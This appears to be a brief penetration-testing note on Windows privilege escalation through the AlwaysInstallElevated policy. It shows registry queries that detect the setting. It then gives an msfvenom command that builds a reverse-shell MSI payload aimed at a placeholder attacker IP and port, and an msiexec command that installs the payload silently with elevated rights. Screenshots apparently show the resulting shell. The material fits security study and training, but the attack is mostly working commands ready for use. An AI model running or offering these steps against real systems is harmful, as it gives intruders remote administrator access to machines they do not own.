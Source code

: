 # Introduction

Windows has a group policy which, when enabled, allows a user to install a Microsoft Windows Installer Package (`.msi` file) with elevated privileges. This poses a security risk because an adversary can simply generate a malicious `.msi` file and execute it with admin privileges.

In order to check for this vulnerability, one need only query the following registry keys:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![[res/Query Registry Keys.png]]

The `AlwaysInstallElevated` policy appears enabled, so we can generate a malicious `.msi` executable. One way to do this is through Metasploit:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o reverse.msi
```

Next, transfer the executable to the target machine and execute it with `msiexec`:

```powershell
msiexec /quiet /qn /i <path>
```

![[res/msiexec.png]]

![[res/Shell.png]]